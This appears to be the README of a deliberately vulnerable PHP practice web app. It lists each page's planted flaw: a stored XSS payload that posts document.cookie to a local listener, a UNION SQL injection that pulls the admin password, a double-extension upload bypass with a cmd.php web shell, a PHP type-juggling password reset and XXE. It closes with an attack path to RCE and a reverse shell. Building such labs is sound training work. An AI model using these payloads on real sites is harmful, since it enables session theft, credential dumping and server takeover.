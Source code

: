 
## Solutions & vulnerability locations

**Comments - comments.php**

Name and Comment field should accept something like:
```
{
'name':'name',
'comment':'<script>fetch("http://127.0.0.1:8888",{method: "post",mode: "no-cors",body:document.cookie});</script>'
}
```
Comments and names are stored on the MySQL db and automatically loaded when the page is refreshed.

With a python listener on the host machine, a script like the above should return a cookie.  Since this is not a real website, you'll have to manually log in to test it.

**Order Form - order.php**

Saves an order as an XML file. Only the webadmin account can review orders. Send some XXE here for later.

**Products Page - Products.php**

Very open to SQL injection.  Once authenticated as a base user, the attacker can get the webadmin password with something in the product search like:
```
1 UNION SELECT NULL, Username, Password FROM users WHERE Username = "webadmin"
```

**Gallery - social.php**

Reasonable file upload filter, but still weak.  This filter will catch files ending in php, but not php.jpg.  This should work:
`evil.php.jpeg`
Then, if an attacker has also grabbed the webadmin password from the products page, from the admin portal they can rename uploads and change the file to `evil.php`.

I've included a cmd.php file in the Notes folder if you want to test it.

## Admin-only Pages

**Admin - admin_page.php**

This page contains a way to list uploaded image files and rename or delete them, as well as a way to view XML order forms. Both allow for RCE and potentially a reverse shell, depending on the exploitation path.  Maliciously uploaded image files can be renamed, and XML orders can be viewed. The "recover image" functionalty doesn't let you recover images submitted by other users.  Its there in case you delete something and want it back.  XML orders files, uploaded images, and 'deleted' images are in the Resources folder path of the source code.

An image file can be accessed at the localhost:8000/resources/user_images/<evil.file> path.

**Reset Password - reset_pw.php**

PHP type juggling.  This page does not check to see if the user for which the password is being changed is the same user that is logged in.  It just sets the $username_entered variable equal to whatever $_POST['Username'] is.  It does, however, check the $new_password against the $username_entered password in the DB.  

The syntax in the logic is vulnerable:
```
if (($_POST['new_password'] == $_POST['new_password2']) && (strcmp($_POST['old_password'],$password) == 0)){
```
The first half of this section checks that the new password is entered twice, identically.  The second half compares the DB and user-supplied password to ensure that they are the same.  The `== 0` comparison is weak.  PHP evaluates empty arrays as false, which is also "equal to" zero.  Intercepting the HTTP request and changing the 'old_password' to an empty array should allow an attacker to reset the webadmin's password to whatever they like.  Something like this should work:

```
In Burp Suite or another proxy, change old_password=foobar to old_password[]=''
```

**View Orders - view_order.php**

This page renders user provided XML (in the form of an "order form") to the webadmin user.  This should be useful for leveraging XXE attacks submitted via the 'Order Form' page. Orders are automatically assigned numeric names in ascending order.

**continue.php**

This page reflects the user name back to an authenticated user.  Untested, but likely will accept XSS or other input based attacks.  User name is committed to the DB.  No functionality to add a new user or "sign up" is included in the site currently, so it would be difficult to exploit without DB injection.

**db.php**

Hard-coded database credentials are not securely stored, and are left in the default webroot file path.

## No deliberate exploit path, but probably vulnerable anyway due to lazy development ##
- **login.php**
- **logout.php**
- **php.ini** This is just here for docker.
- **phpinfo.php** Included for fun, and can be attacked.
- **continue.php**

This page reflects the user name back to an authenticated user.  Untested, but likely will accept XSS or other input based attacks.  User name is committed to the DB.  No functionality to add a new user or "sign up" is included in the site currently, so it would be difficult to exploit without DB injection.

- **secretdir.php**

The file "secretdir" just holds functions.  It initially was for something else, but I never renamed it.  

## Example Attack Path

**As a user**
1. Stored XSS via comments to obtain user cookie
2. Authenticate with user cookie (or just skip this step and log in as a user from the start)
3. upload a shell with a .php.jgp extension on the 'Gallery' page. Other script types may work, like sh.jpg.
4. Navigate to products page
5. SQLi products page via union select for webadmin password

OR

PHP type juggling to reset webadmin password

Alternatively, attempt an XXE injection on the "Orders page" for later use.

**As webadmin**
1. authenticate as webadmin
2. admin page is now available, although there is no button.  It is admin_page.php.
The admin_page.php site is available after logging in as "webadmin" and clicking the "click here to continue message". A new link for the admin portal should appear.
3. change shell from jpg to php extension
4. use uploaded shell for RCE at /resources/user_images/<filename.php>
5. attempt reverse shell

Alternatively, review the XXE order you placed earlier.
